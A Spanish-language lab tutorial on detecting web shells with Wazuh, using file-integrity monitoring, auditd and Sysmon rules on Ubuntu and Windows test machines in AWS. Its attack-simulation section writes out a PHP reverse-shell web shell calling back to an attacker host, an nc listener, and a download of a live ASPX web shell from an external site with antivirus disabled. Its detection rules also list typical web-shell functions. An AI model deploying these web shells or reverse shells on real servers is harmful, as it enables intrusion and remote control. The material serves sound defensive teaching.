## ¿Qué es Wazuh?

Wazuh, en palabras de su creador, el español Santiago Basset, es una proyecto open source que trata de prevenir, detectar y responder a amenazas.

Técnicamente podría considerarse un HIDS (Host Intrusion Detection System). Estos dispositivos usualmente centraban la importancia en los eventos en la red. Sin embargo esta es una tendencia cambiante, como vemos en este gráfico de ejemplo de MITRE:


Así pues, Wazuh quizás se acerque más a un [XDR](https://wazuh.com/platform/xdr/) o un [SIEM](https://wazuh.com/platform/siem/).

Su objetivo principal es **monitorizar la seguridad de los sistemas, detectar amenazas, responder ante incidentes y facilitar el cumplimiento normativo**, todo desde una única consola centralizada.

Wazuh se ha convertido en una solución ampliamente adoptada por su **versatilidad, escalabilidad y transparencia**, y es utilizada tanto en entornos empresariales como académicos.


## 🧬 Historia y evolución

Wazuh nació como un **fork de OSSEC**, un proyecto veterano de HIDS, al que se le añadieron mejoras sustanciales en escalabilidad, arquitectura modular, interfaz gráfica, soporte a tecnologías modernas y extensibilidad. Con el tiempo, Wazuh evolucionó hacia una solución integral de **detección y respuesta** que va mucho más allá del simple monitoreo de logs o archivos.


## 🧱 Arquitectura de Wazuh

Wazuh sigue una arquitectura **cliente-servidor** (o mejor dicho, **agente-mánager-dashboard**), compuesta por varios componentes clave:

### 1. Agentes Wazuh
Instalados en sistemas finales (Windows, Linux, macOS), los agentes recogen:

- Logs del sistema y aplicaciones
- Actividad de red y procesos
- Cambios en archivos (FIM)
- Eventos de seguridad (fallos de autenticación, escalada de privilegios, etc.)

### 2. Manager Wazuh
Es el núcleo del sistema:

- Recibe y analiza los datos de los agentes
- Aplica reglas de correlación
- Genera alertas de seguridad
- Ejecuta respuestas activas si se configuran

### 3. Wazuh Indexer (basado en OpenSearch/Elasticsearch)

Almacena y permite consultar grandes volúmenes de datos estructurados, como eventos y alertas de seguridad, mediante búsquedas rápidas y complejas.

### 4. Wazuh Dashboard

Interfaz web basada en Kibana/OpenSearch Dashboards:

- Visualización de alertas, logs, informes y cumplimiento
- Gestión de políticas de seguridad
- Seguimiento de incidentes en tiempo real


## 🧠 Capacidades clave de Wazuh

| Función                         | Descripción                                                                                                                                     |
|----------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------|
| 🔍 **HIDS**                    | Detección basada en host de archivos modificados, nuevos procesos, cambios en el sistema, etc.                                                  |
| 📑 **FIM (File Integrity Monitoring)** | Monitorización de archivos críticos del sistema o aplicaciones web (muy útil contra webshells).                                                |
| 📜 **Análisis de logs**         | Ingesta y análisis de logs de sistemas, aplicaciones, dispositivos de red, servicios cloud (AWS, Azure, GCP).                                  |
| 🛡️ **Detección de amenazas**     | Reglas de correlación que detectan patrones de ataque, como escaladas de privilegios, movimiento lateral o conexiones sospechosas.             |
| 🤖 **Respuestas activas**        | Scripts automáticos para bloquear IPs, cerrar procesos o modificar configuraciones ante incidentes.                                            |
| 🏛️ **Cumplimiento normativo**    | Módulos y plantillas para PCI-DSS, GDPR, HIPAA, NIST 800-53, etc., con informes automatizados.                                                 |
| ☁️ **Integración cloud y contenedores** | Integración con Kubernetes, Docker, AWS CloudTrail, Azure logs, etc. para visibilidad en entornos híbridos y nativos de la nube.              |
| 🧩 **Extensibilidad**            | Uso de decoders, reglas personalizadas, integraciones con VirusTotal, Suricata, Zeek, TheHive, etc.                                            |


## 🎯 Casos de uso típicos

- Monitorización de seguridad de endpoints (EDR/HIDS)
- Detección de accesos no autorizados y malware
- Detección de webshells en servidores web (con FIM + análisis de logs + reglas personalizadas)
- Cumplimiento normativo automatizado
- Integración con herramientas de respuesta a incidentes (SOAR, TheHive, MISP)


## Web shells

Los cibercriminales utilizan diferentes técnicas para conseguir la persistencia en un sistema previamente comprometido. Una de estas técnicas son las web shells.

### ¿Qué son las webshells?

Son scripts web que permiten a los atacantes acceso remoto sin restricciones. Puede pasar que un atacante logra comprometer un servidor, consiguiendo el acceso inicial al servicio web mediante alguna técnica ya conocida (SQLi, XSS, RFI...).

Con este compromiso inicial, se puede intentar realizar la inyección de una web shell en el directorio del servidor y que constituirá un *backdoor* que dará paso a actividades post-explotación (ejecución de comandos, exfiltración de información, infección de malware...).


La mayoría de los web shells siguen los mismos principios de diseño y e intenciones. Normalmente suelen estar escritos en lenguajes soportados por los servidores web: PHP, ASP, ASP.NET, Perl, Python...

### Indicadores comunes de los web shells

+ **<u>Archivos subidos o modificados recientemente:</u>** los atacantes suelen subir sus web shells en los directorios utilizados por los servidores web o modificar archivos ya presentes en ellos. Disonancias en las fechas de modificación pueden ser un indicativo.</u>
+ **<u>Conexiones de red inusuales:</u>** las web shell puede que tengan que poner determinados puertos a la escucha para establecer *reverse shells* o shells inversas hacia los atacantes. Esto producirá tráfico inusual (TCP o UDP), que puede ser un indicador de compromiso.
+ **<u>Configuraciones extrañas/erróneas y cabeceras modificadas:</u>** cabeceras clásiscas de las peticiones HTTP son *user-agent* o *referer*. Los atacantes pueden realizar la modificación de estas cabeceras de tal forma que se intente una ejecución de comandos mediante ellas.
+ **<u>Técnicas de ofuscación:</u>** puede que el atacante emplee técnicas de codificación, compresión o sustitución para intentar ser detectado por los sitemas de seguridad.

## Manos a la obra, configuración del laboratorio

Para este laboratorio utilizaremos AWS, por la versatilidad que nos ofrece y así deshacernos de los problemas de infraestructa a los que pueda limitarnos nuestra máquina. Se van a utilizar **4 máquinas**:

1. **Amazon Linux 2:** para instalar el servidor de Wazuh.
2. **Ubuntu:** como víctima endpoint que está ejecutando un agente de Wazuh. Correrá un servidor Apache para aplicaciones PHP.
3. **Windows Server 2022:** otra víctima endpoint ejecutadno otro agente de Wazuh. Correrá un servidor IIS para aplicaciones ASP.NET.
4. **Debian:** como máquina atacante.
 
### Wazuh server en Amazon Linux 2

La instalación del servidor de Wazuh o Wazuh manager se puede realizar siguiendo [este](https://documentation.wazuh.com/current/quickstart.html) sencillo tutorial.

### Agente Wazuh en Ubuntu 22.04

Los pasos vienen detallados [aquí](https://documentation.wazuh.com/current/installation-guide/wazuh-agent/wazuh-agent-package-linux.html)

!!!warning "Atención"
        Elegid la pestaña ***APT***, que es la que os dará las indicaciones para realizar las acciones con el gestor de paquetes correspondiente.

### Agente de Wazuh en Windows Server 2022

En este caso las instrucciones están [aquí](https://documentation.wazuh.com/current/installation-guide/wazuh-agent/wazuh-agent-package-windows.html) y os dará la opción, en las pestañas, de elegir una instalación gráfica o por línea de comandos.

!!!Warning "Atención"
        Recordad poner como IP de Wazuh manager la de vuestro server de Wazuh.


### Servidor web Apache en endpoint Ubuntu

Pasos a seguir:

1. Instalar Apache:

    ```console
    $ sudo apt-get update
    $ sudo apt-get install apache2
    ```

2. Instalar PHP 8.1 para poder correr aplicaciones PHP

    ```console
    $ sudo apt-get install --no-install-recommends php8.1
    ```

    Así evitaremos instalar paquetes adicionales.

3. Para verificar la instalación podemos acceder a la URL: `http://IP_UBUNTU_ENDPOINT`y nos mostrará la página por defecto de Apache.


### Servidor web IIS en endpoint Windows Server

Para proceder con esta instalación:

1. En el menú de inicio de Windows, escribimos `appwiz.cpl` y le decimos *Turn Windows features on or off*:

    

2. En *Server Roles* instalamos **Web Server (IIS)** conm, al menos, las siguientes funciones:
    
    

3. Para verificar la instalación accedemos a la URL: `http://IP_WINDOWS_ENDPOINT`

!!!danger "¡Atención, importante!"

     En la comunicación entre los agentes y el servidor intervienen distintos puertos. <u>**La forma fácil de evitaros todo problema**</u> es añadir una regla de seguridad a todas las máquinas donde se permite cualquier conexión entrante (TCP/UDP, cualquier puerto) desde la red 172.31.0.0/16. 

    Esto no supone un gran problema de seguridad puesto que es el segmento de red **privado** que nos asigna AWS Academy por defecto. En esencia lo que hacemos es dejar que todas las máquinas dentro de esa red se comuniquen sin cortapisas.

## Escenario hipotético

El endpoint Ubuntu corre un Apache con PHP instalado y el endpoint Windows Server corre un servidor web IIS, capaz de interpretar código ASP.NET.

Puesto que las web shells se consideran malware post-explotación, hemos de asumir que el atcante ya posee acceso inicial a los endpoints. Lo que el atacante desea conseguir es la persistencia en el sistema comprometido con el fin de llevar a cabo estas labores de  post-explotación.

## Técnicas de detección

Utilizaremos distintas capacidades de Wazuh para detectar la presencia de web shells en PHP o ASP.NET.

### Integridad de ficheros

Utilizaremos **FIM (File Integritiy Monitorint)** para deteta rla creación y modificación de archivos que contengan web shells.

El módulo FIM de Wazuih puede detectar, casi en tiempo real, cambios en los archivos accesibles via web y de esta forma alertar a los administradores.

Usaremos este módulo para detectar cuando se han creado o odificado archivos en `/var/wwww/html`y en `C:\inetpub\wwwroot`, directorios raiz por defecto en Ubuntu y Windows respectivamente.

Además, FIM escanea los contenidos de los archivos para monitorizar la aparción de firmas de web shells cuando los archivos se modifican.

#### Configuración de Ubuntu

1. Añadir la siguiente configuración al agente de Wazuh en el archivo `/var/ossec/etc/ossec.conf`, dentro del bloque `<syscheck>`:

    ```html
    <directories realtime="yes" check_all="yes" report_changes="yes">/var/www/html</directories>
    ```
    Esto detecta los cambios en el directorio `/var/www/html`.

2. Reiniciar el agente de Wazuh para aplicar los cambios en la configuración:

    ```console
    $ sudo systemctl restart wazuh-agent
    ```

#### Configuración de Windows

1. Añadir la siguiente configuración al agente de Wazu en el archivo `C:\Program Files (x86)\ossec-agent\ossec.conf`, dentro del bloque `<syscheck>`:

    ```html
    <directories realtime="yes" check_all="yes" report_changes="yes">C:\inetpub\wwwroot</directories>
    ```

2. Corriendo una terminal de Powershell como administrador, reinicia el agente de Wazuh para aplicar los cambios en la configuración:

    ```powershell
    > Restart-Service -Name wazuh
    ```

#### Configuración del servidor de Wazuh

1. Crear un archivo de reglas personalizado `reglas_webshell.xml` en el directorio `/var/ossec/etc/rules/` y colocar en él las siguientes reglas:

    ```xml title="reglas_Webshell.xml" linenums="1"
    <group name="linux, webshell, windows,">
    <!-- Esta regla detecta la creación de archivos -->
    <rule id="100500" level="12">
    <if_sid>554</if_sid>
    <field name="file" type="pcre2">(?i).php$|.phtml$|.php3$|.php4$|.php5$|.phps$|.phar$|.asp$|.aspx$|.jsp$|.cshtml$|.vbhtml$</field>
    <description>[File creation]: Possible web shell scripting file ($(file)) created</description>
    <mitre>
    <id>T1105</id>
    <id>T1505</id>
    </mitre>
    </rule>

    <!-- Esta regla detecta la modificación de archivos -->
    <rule id="100501" level="12">
    <if_sid>550</if_sid>
    <field name="file" type="pcre2">(?i).php$|.phtml$|.php3$|.php4$|.php5$|.phps$|.phar$|.asp$|.aspx$|.jsp$|.cshtml$|.vbhtml$</field>    
    <description>[File modification]: Possible web shell content added in $(file)</description>
    <mitre>
    <id>T1105</id>
    <id>T1505</id>
    </mitre>
    </rule>

    <!-- Esta regla detecta la modificación de archivos con firmas asociadas a web shells de PHP -->
    <rule id="100502" level="15">
    <if_sid>100501</if_sid>
    <field name="changed_content" type="pcre2">(?i)passthru|exec|eval|shell_exec|assert|str_rot13|system|phpinfo|base64_decode|chmod|mkdir|fopen|fclose|readfile|show_source|proc_open|pcntl_exec|execute|WScript.Shell|WScript.Network|FileSystemObject|Adodb.stream</field>
    <description>[File Modification]: File $(file) contains a web shell</description>
    <mitre>
    <id>T1105</id>
    <id>T1505.003</id>
    </mitre>
    </rule>
    </group>
    ```

2. Reiniciar Wazuh manager para aplicar la configuración de los cambios
   
     ```console
     $ sudo systemctl restart wazuh-manager
     ```

##### Explicación de las reglas personalizadas

+ `id="100500"`: ID único de esta regla.

+ `level="12"`: Severidad alta. El máximo es 15.

+ `<if_sid>554</if_sid>`: Solo se aplica si antes se ha activado la regla con ID 554 (esta regla base detecta creación de archivos).

+ `<field name="file" type="pcre2">...`: Aplica un regex (compatible con PCRE2) sobre el campo file. Busca archivos con extensiones típicas de web shells:

    `.php, .asp, .jsp, .cshtml, .vbhtml, etc.`

+ `$(file)`: Variable que se sustituye con el nombre del archivo real.

+ `<mitre>`: Indica técnicas MITRE ATT&CK asociadas:

    + *T1105 – Ingress Tool Transfer: transferencia de herramientas maliciosas al sistema.*
    + *T1505 – Server Software Component: modificación maliciosa de componentes del servidor (como web shells).*

📌 Esta regla detecta que se ha creado un archivo sospechoso que podría ser un web shell.

La segunda regla es similar, sólo que intenta detectar la **modificación** y no la creación de archivos.

La tercera regla intenta detectar modificaciones de archivo, es decir que se haya disparado la segunda regla, y que éstas además incluyan funciontes típicas de webshells.

### Usando reglas personalizadas para detectar indicios de web shells

Wazuh permite escribir reglas personalizadas que disparan alertas cuando se detectan determinadas características en logs. Además integraremos Wazuh con **auditd** en endpoints Linux y **Sysmon** en Windows para enriquecer los fuentes de logs, para así mejorar la seguridad.

#### Ubuntu

**Auditd** (de Linux Audit Daemon) es una utilidad que recopila y almacena eventos del sistema tales como llamadas al sistema (*syscall*) y funciones. Usando auditd podemos monitorizar comandos del sistema así como conexiones de red que lleve a cabo un usuario de servidor web, escribiendo reglas que generen una alerta cuando esto ocurra.

Así las cosas:

1. Actualizar los paquetes de los respositorios e instalar **auditd**:

    ```console 
    $ sudo apt update
    $ sudo apt install auditd
    ```

2. Enviar los logs de *auditd* al servidor de Wazuh para su análisis, añadiendo para ello la siguiente configuración al agente de Wazuh en el archivo `/var/ossec/etc/ossec.conf`:

    ```xml
    <ossec_config>
    <localfile>
        <location>/var/log/audit/audit.log</location>
        <log_format>audit</log_format>
    </localfile>
    </ossec_config>
    ```

3. Obtener el identificador dle usuario del servidor web Apache ejecutando el siguiente comando:

    ```console
    $ sudo apachectl -S
    ```

    ???note "Salida"

        ```sh hl_lines="12"
        VirtualHost configuration:
        *:80                   127.0.1.1 (/etc/apache2/sites-enabled/000-default.conf:1)
        ServerRoot: "/etc/apache2"
        Main DocumentRoot: "/var/www/html"
        Main ErrorLog: "/var/log/apache2/error.log"
        Mutex mpm-accept: using_defaults
        Mutex watchdog-callback: using_defaults
        Mutex default: dir="/var/run/apache2/" mechanism=default 
        PidFile: "/var/run/apache2/apache2.pid"
        Define: DUMP_VHOSTS
        Define: DUMP_RUN_CFG
        User: name="www-data" id=33
        Group: name="www-data" id=33
        ```

4. Añadir al archivo de configuración de *auditd* `/etc/audit/rules.d/audit.rules`, usando el id de usuario en el paso 3, lo siguiente:

    ```sh
    ## Auditd rules that detect command execution from user www-data.
    -a always,exit -F arch=b32 -S execve -F uid=<USER_ID> -F key=webshell_command_exec
    -a always,exit -F arch=b64 -S execve -F uid=<USER_ID> -F key=webshell_command_exec

    ## Auditd rules that detect network connections from user www-data.
    -a always,exit -F arch=b64 -S socket -F a0=10 -F euid=<USER_ID> -k webshell_net_connect
    -a always,exit -F arch=b64 -S socket -F a0=2 -F euid=<USER_ID> -k webshell_net_connect
    -a always,exit -F arch=b32 -S socket -F a0=10 -F euid=<USER_ID> -k webshell_net_connect
    -a always,exit -F arch=b32 -S socket -F a0=2 -F euid=<USER_ID> -k webshell_net_connect
    ```

5. Reiniciar *auditd* y el agente de Wazuh para aplicar los cambios en la configuración:

```console
$ sudo systemctl restart auditd
$ sudo systemctl restart wazuh-agent
```

#### Windows

System Monitor (Sysmon) es un servicio de sistema de Windows que monitoriza y registra la actividad del sistema en los logs de eventos de Windows.

Complementa los logs con información detallada sobre la creación de procesos o conexiones de red, entre otros. Por ejemplo, Sysmon puede monitorizar el proceso `w3wp.exe,`componente fundamental del servidor web de Microsoft Internet Information Services (IIS). Este proceso se encarga de manejar las solicitudes HTTP recibidas por el servidor web y de procesarlas para generar las respuestas correspondientes.

IIS tiene una funcionalidad de seguridad llamada *application pool* que permite que un pool de aplicaciones se ejecuten únicamente con una única cuenta, cuyo nombre por defecto es `DefaultAppTool`. 

Con esta cuenta, el proceso de IIS corre exclusivamente con privilegios de usuario. Los atacantes suelen aprovechar este proceso para abrir terminales de **PowerShell** o **cmd**. 

Explicado lo anterior, para configurar Sysmon y que Wazuh procese sus logs, haremos:

1. Descargar en nuestra máquina Windows el instalador de [Sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon) y el [archivo de configuración que necesitamos](https://wazuh.com/resources/blog/emulation-of-attack-techniques-and-detection-with-wazuh/sysmonconfig.xml)

2. Instalar Sysmon, usando la configuración descargada, mediante un terminal de PowerShell corriendo con privilegios de administrador:

```console
> .\Sysmon64.exe -accepteula -i sysmonconfig.xml
```

3. Añadir las siguientes líneas de configuración al archivo `C:\Program Files (x86)\ossec-agent\ossec.conf`, encargado de la captura y redireción de logs de Sysmon hacia el servidor de Wazuh:

```xml
<ossec_config>
  <localfile>
    <location>Microsoft-Windows-Sysmon/Operational</location>
    <log_format>eventchannel</log_format>
  </localfile>
</ossec_config>
```

4. Reiniciar el agente de Wazuh para aplicar los cambios en la configuración:


    ```powershell
    > Restart-Service -Name wazuh
    ```

#### Amazon Linux 2 (Wazuh server)

1. Añadir al archivo de configuración `/var/ossec/etc/rules/reglas_webshell.xml`, las siguientes reglas que intenta detectar comandos ejecutados por una web shell, así como conexiones de red establecidas:

    ???note "reglas_webshell.xml"
        ```xml
        <!-- Reglas Linux. -->
        <group name="auditd, linux, webshell,">
        <!-- Eta regla detecta comandos ejecutados por una web shell -->
        <rule id="100520" level="12">
            <if_sid>80700</if_sid>
            <field name="audit.key">webshell_command_exec</field>
            <description>[Command execution ($(audit.exe))]: Possible web shell attack detected</description>
            <mitre>
            <id>T1505.003</id>
            <id>T1059.004</id>
            </mitre>
        </rule>
        <!-- Esta regla detecta conexiones de red realizadas por una web shell -->
        <rule id="100521" level="12">
            <if_sid>80700</if_sid>
            <field name="audit.key">webshell_net_connect</field>
            <description>[Network connection via $(audit.exe)]: Possible web shell attack detected</description>
            <mitre>
            <id>TA0011</id>
            <id>T1049</id>
            <id>T1505.003</id>
            </mitre>
        </rule>
        </group>

        <!-- Reglas Windows -->
        <group name="sysmon, webshell, windows,">
        <!-- Esta regla detecta comandos ejecutados por una web shell  -->
        <rule id="100530" level="12">
            <if_sid>61603</if_sid>
            <field name="win.eventdata.parentImage" type="pcre2">(?i)w3wp\.exe</field>
            <field name="win.eventdata.parentUser" type="pcre2">(?i)IIS\sAPPPOOL\\\\DefaultAppPool</field>
            <description>[Command execution ($(win.eventdata.commandLine))]: Possible web shell attack detected</description>
            <mitre>
            <id>T1505.003</id>
            <id>T1059.004</id>
            </mitre>
        </rule>

        <!-- Esta regla detecta conexiones de red realizadas por una web shell -->
        <rule id="100531" level="12">
            <if_sid>61605</if_sid>
            <field name="win.eventdata.image" type="pcre2">(?i)w3wp\.exe</field>
            <field name="win.eventdata.user" type="pcre2">(?i)IIS\sAPPPOOL\\\\DefaultAppPool</field>
            <description>[Network connection]: Possible web shell attempting network connection on source port: $(win.eventdata.sourcePort) and destination port: $(win.eventdata.destinationPort)</description>
            <mitre>
            <id>TA0011</id>
            <id>T1049</id>
            <id>T1505.003</id>
            </mitre>
        </rule>
        </group>
        ```

4. Reiniciar el manager de Wazuh para aplicar los cambios en la configuración:


    ```console
    $ sudo systemctl restart wazuh-manager
    ```

### Usando monitorización de comandos para detectar las conexiones de red de un posible ataque

En esta sección usaremos la monitorización de comandos para complementar el uso de *auditd* en el endpoint Linux. Nos servirá para obtener información adicional sobre las direcciones IP/puertos desde los que se originan los ataques.

#### Ubuntu

1. Añadir las siguientes configuraciones al archivo de configuración del agente Wazuh `/var/ossec/etc/ossec.conf`. Esto determina el comando que se ejecutará en el endpoint:

    ```xml
    <ossec_config>
    <localfile>
        <log_format>full_command</log_format>
        <command>ss -nputw | egrep '"sh"|"bash"|"csh"|"ksh"|"zsh"' | awk '{ print $5 "|" $6 }'</command>
        <alias>webshell connections</alias>
        <frequency>120</frequency>
    </localfile>
    </ossec_config>
    ```
    Como vemos, este comando se ejecuta cada 120 segundos con el fin de detectar conexiones activas abiertas por shells como `bash`, `zsh`, etc.

2.  Reiniciar el agente de Wazuh par aplicar los cambios de configuración:

    ```console
    $ sudo systemctl restart wazuh-agent
    ```

#### Amazon Linux 2 (Wazuh server)

1. Añadir, en el archivo de configuración `/var/ossec/etc/decoders/local_decoder.xml` los siguientes decodificadores para decodificar patrones de conexiones de red establecidas por web shells en los servidores web:

    ```xml
    <!-- Decodificar para las conexiones de red de web shells -->
    <decoder name="network-traffic-child">
      <parent>ossec</parent>
      <prematch offset="after_parent">^output: 'webshell connections':</prematch>
      <regex offset="after_prematch" type="pcre2">(\d+.\d+.\d+.\d+):(\d+)\|(\d+.\d+.\d+.\d+):(\d+)</regex>
      <order>local_ip, local_port, foreign_ip, foreign_port</order>
    </decoder>
    ```
   
2. Añadir al archivo de configuración `/var/ossec/etc/rules/reglas_webshell.xml`, las siguientes reglas que intentna detectar conexiones de red establecidas por web shells en los servidores web:

    ```xml 
    <!-- Regla detectar conexiones red web shells -->
    <group name="linux, webshell,">
      <rule id="100510" level="12">
        <decoded_as>ossec</decoded_as>
        <match>ossec: output: 'webshell connections'</match>
        <description>[Network connection]: Script attempting network connection on source port: $(local_port) and destination port: $(foreign_port)</description>
        <mitre>
          <id>TA0011</id>
          <id>T1049</id>
          <id>T1505.003</id>
       </mitre>
      </rule>
    </group>
    ```

3. Reiniciar el manager de Wazuh para aplicar los cambios en la configuración:

    ```console
    $ sudo systemctl restart wazuh-manager
    ```

## Simulación de ataque

A continuación se detallan los pasos para simular como funcionan las web shells en los endpoints comprometidos.

### Pasos para simular el ataque contra el endpoint Ubuntu

#### Ubuntu

Ejecutar los siguientes pasos con privilegio de *root*.

1. Crear un archivo, por ejemplo `webshell.php` en el directorio del servidor web `/var/www/html` con la siguiente línea de código que ejecutará una shell inversa:

    ```php
    echo -e "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/<IP_DEBIAN>/4444 0>&1\"');?>" > /var/www/html/webshell.php
    ```

#### Debian

1. En el terminal de nuestra Debian utilizaremos netcat (nc, instaladlo si no lo está) para escuchar conexiones en el puerto **4444**:

    ```bash
    $ nc -nlvp 4444
    ```

2. Ejecutar la web shell desde nuestro navegador accediendo a la URL `http://<IP_UBUNTU>/webshell.php`, de tal forma que se establezca una shell inversa con el endpoint Ubuntu hacia nuestra Debian atacante.


3. En el terminal que nos aparecerá en el netcat de nuestra Debian, ejecutar varios comandos tales como `id`, `cat /etc/passwd`, `whoami`...


#### Ver las alertas

En el dashboard de Wazuh, navegar a ***Security events*** y visualizar las alertas generadas:


### Pasos para simular el ataque contra el endpoint Windows

#### Windows

!!!warning "Atención"
    Es más que probable que necesitéis desactivar el antivirus y la detección de amenazas de Windows para que os funcione esta parte.

Ejecutar los siguientes pasos en una terminal de PowerShell ejecutándose como administrador:

1. Descargar una copia de una web shell en el directorio del servidor web `C:\inetput\wwwroot` y llamarla, por ejemplo, `webshell.aspx`:

    ```powershell
    > Invoke-WebRequest -OutFile 'C:\Users\Public\Downloads\webshell.aspx' -Uri https://privdayz.com/cdn/txt/aspx.txt
    > copy 'C:\Users\Public\Downloads\webshell.aspx' 'C:\inetpub\wwwroot\webshell.aspx'
    ```

#### Debian

1. En el terminal de nuestra Debian escuchamos conexiones en el puerto **4444**:

    ```bash
    $ nc -nlvp 4444
    ```

2. Acceder a la web shell desde nuestro navegador mediante la URL `http://<IP_WINDOWS>/webshell.aspx`.

    La contraseña de la web shell es **admin**. En el menú *CmdShell*, ejecuta comandos tales como `whoami`, `ipconfig`...

3. En el menú *PortMap*, introducir la IP de nuestra Debian como **Remote IP**, `4444` como **Remote Port** y `5555` como **Local Port**. Tras ello, pulsar **MapPort**

#### Ver las alertas

En el dashboard de Wazuh, navegar a ***Security events*** y visualizar las alertas generadas:


## Recapitulación y conclusiones

+ Las web shells de cualquier tipo suelen tener comportamientos similares, esto es, crean o modifican archivos presentes en los directorios de los servidores web, realizando conexiones de red para establecer shells inversas y ejecutando comandos para tareas post-explotación.

+ Con Wazuh podemos ser capaces de detectar estas web shells, usando FIM y la monitorización de comandos

+ También hemos realizado la integración de *auditd* y *Sysmon* con Wazuh, aportando así más información a los logs, siendo capaces de realizar una mejor detección en los endpoints comprometidos

+ No obstante, es recomendable que las organizaciones además tengan en marcha defensas contra las tareas de post-explotación como puedan ser el escaneo y parcheo de sistemas y aplicaciones vulnerables, así como políticas de seguridad que monitoricen malas configuraciones de los sistemas.

## Anexo: despliegue de instancias EC2 Linux y Windows en AWS

Una vez tenemos creados nuestro laboratorio (*Learner Lab*)en AWS Academy, podremos hacer uso de varios servicios de Amazon Web Services, dentro de unos límites, aunque estos límites no nos afectan para nuestro propósito.

Amazon ofrece una cantidad ingente de servicios que podéis consultar en los capítulos 1, 3 y 9 del curso de AWS Foundations. Uno de estos servicios es el de computación, es decir, la creación de instancias EC2 (Elastic Compute Cloud). Esto no es más que la creación de máquinas virtuales en la nube, lo cual nos es de extrema utilidad para el caso que nos ocupa.

A continuación se mostrará detalladamente el proceso de creación de instancias Linux y Windows, así como la forma de conectarse a dichas instancias.

### EC2 Linux

En primer lugar debéis entrar en vuestro Learner Lab y acceder a los contenidos:


E ir a la pantalla de lanzamiento del laboratorio:


Le daremos a iniciar laboratorio y esperaremos a que el icono marcado se ponga en verde. Una vez lo esté, haremos click en él para que nos lleve a la página de administración de servicios de AWS:


Una vez en esta página, el servicio que a nosotros nos interesa en este momento son las instancias EC2. Así pues, escribimos esto en la caja de búsqueda:


Le decimos que queremos lanzar una nueva instancia:



E iremos completando los detalles necesarios, como nombre o imagen de la máquina que se creará (Amazon Linux, Ubuntu, Debian, Windows...). En esta caso se ilustra el ejemplo de la máquina cliente Ubuntu pero habría que seleccionar según el caso:


Podemos elegir distintos tipos de instancias, con distintos precios por uso, así como propiedades (CPU+RAM). **Para el caso de las instancias Linux, nos basta una *t2.micro*. Para el caso de las Windows, debemos elegir t2.medium para no quedarnos demasiado cortos.**



En el apartado de *Claves de sesión*, elegiremos **vockey**. Esto nos permitirá más tarde conectarnos a las instancias:

